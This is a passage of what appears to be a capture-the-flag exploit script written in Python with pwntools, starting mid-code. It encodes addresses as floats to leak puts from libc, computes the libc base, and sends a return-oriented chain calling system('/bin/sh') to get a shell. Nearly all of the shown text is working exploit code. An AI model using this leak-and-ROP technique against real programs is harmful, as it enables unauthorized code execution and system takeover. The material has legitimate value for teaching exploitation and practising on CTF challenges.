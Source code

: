             hex2float(exe.plt.puts),
            hex2float(main_addr)]
        )

        rl()
        leak = fixleak(rl()[:-1])
        libc.address = leak - libc.sym.puts
        info(f'Leak: {hex(leak)}')
        info(f'Libc base: {hex(libc.address)}')
        sleep(0.5)

        # Get shell
        sla(b'> ', b'2')
        sla(b': ', b'39')
        send_floats(
            [0.0] * 33 + [
            '+',
            5.0,
            hex2float(ret),
            hex2float(pop_rdi),
            hex2float(next(libc.search(b'/bin/sh'))),
            hex2float(libc.sym.system)]
        )

        interactive()

    if __name__ == '__main__':
        exploit()
    ```

